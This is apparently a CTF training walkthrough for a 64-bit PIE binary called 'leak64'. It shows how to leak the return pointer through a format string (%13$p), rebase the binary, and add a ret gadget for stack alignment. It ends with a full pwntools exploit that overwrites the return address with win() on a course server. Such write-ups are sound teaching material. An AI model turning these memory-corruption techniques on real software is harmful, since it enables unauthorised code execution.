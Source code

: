 ```yaml
---
description: PIE again, 64-bit edition.
---
```


# leak64

{% file src="../../.gitbook/assets/leak64.zip" %}

This binary is remarkably similar to the last one, with two major differences:

1. We can't forget about the `movaps` fault; we need a way to mitigate this.
2. Addresses are 64-bit but are formatted very similarly.

Since this is the same binary as the last one, just compiled in 64-bit, we will skip most of the static analysis.

### The Attack Vector

First, we need to find a leakable address on the stack. We'll use `gdb` to do this because, in 64-bit, it's often a high-valued offset.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/10gx $rsp
0x7fffffffe3c0:	0x7025207025207025	0x2520702520702520
0x7fffffffe3d0:	0x2070252070252070	0x0000007025207025
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x00007fffffffe400	0x00005555555552ba
0x7fffffffe400:	0x0000000000000001	0x00007ffff7c29d90
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x5614be16a233]> pxq 80 @ rsp
0x7ffdca27c5c0  0x7025207025207025  0x2520702520702520   %p %p %p %p %p %
0x7ffdca27c5d0  0x2070252070252070  0x7025207025207025   p %p %p %p %p %p
0x7ffdca27c5e0  0x0000000000702520  0x0000000000000000    %p.............
0x7ffdca27c5f0  0x00007ffdca27c600  0x00005614be16a2ba   ..'..........V..
0x7ffdca27c600  0x0000000000000001  0x00007f0a5c829d90   ...........\....
```
{% endtab %}
{% endtabs %}

We like the 8th value on the stack because it matches the format of the instructions nearby. If we check where it is:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/wx 0x00005555555552ba
0x5555555552ba <main+18>:	0x000000b8
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x5614be16a2ba]> afi. @ 0x00005614be16a2ba
main
[0x5614be16a2ba]> pdf @ main
┌ 25: int main (int argc, char **argv, char **envp);
│           0x5614be16a2a8      f30f1efa       endbr64
│           0x5614be16a2ac      55             push rbp
│           0x5614be16a2ad      4889e5         mov rbp, rsp
│           0x5614be16a2b0      b800000000     mov eax, 0
```
{% endtab %}
{% endtabs %}

This is our return pointer to `main()`! We can choose to leak this value and then overwrite it later. Our offset for the format string is going to be `13`.

{% hint style="danger" %}
#### _Uh, why?_

In 64-bit, there are 6 registers. The first is reserved for the format string so we don't count that one. This makes our offset `8+6-1=13`.
{% endhint %}

Now we have what we need. We can leak the address of `main() + 18` and then overwrite the return pointer with the address of `win()`.

```python
p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)
```

We also need a way to beat the `movaps` instruction. Because PIE is enabled, we can't hardcode gadgets. This means we have to find what function they're in, their offset, and then use that for our gadget. In this case, we can pull any `ret`, I tend to use `deregister_tm_clones()` because I know it's not problematic. We find our `ret` instruction:

```nasm
   0x0000555555555158 <+40>:	ret    
```

We can use this to build our payload:

```python
payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)
```

Then, we send the payload off and get the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak64')
p = remote('vunrotc.cole-ellis.com', 7300)

p.recvline()

p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)

payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}
